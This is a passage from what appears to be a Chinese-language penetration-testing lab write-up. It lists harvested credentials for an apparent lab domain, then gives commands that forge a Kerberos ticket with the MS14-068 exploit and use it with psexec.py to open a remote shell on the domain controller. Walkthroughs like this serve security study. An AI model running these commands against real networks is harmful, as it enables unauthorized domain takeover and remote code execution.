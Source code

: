 <img src="../../images//image-20230112232900013.png" alt="image-20230112232900013" style="zoom: 67%;" />

梳理得到的信息：

```
用户名 usercn
密码   Fsec.io!
SID   S-1-5-21-1072000545-2571014027-4204925057-1105
域名   fsec.cn
域控   172.16.0.101  2008-1.fsec.cn
```

生成对应的票据

```
MS14-068.exe -u usercn@fsec.cn -p Fsec.io! -s S-1-5-21-1072000545-2571014027-4204925057-1105 -d 2008-1.fsec.cn
```

![image-20230119143732694](../../images//image-20230119143732694.png)

```
export KRB5CCNAME=/root/TGT_usercn@fsec.cn.ccache
python3 psexec.py -k -n fsec.cn/usercn@2008-1 cmd  ###执行前把kali的DNS指向到AD域的DNS
```

![image-20230119143847551](../../images//image-20230119143847551.png)
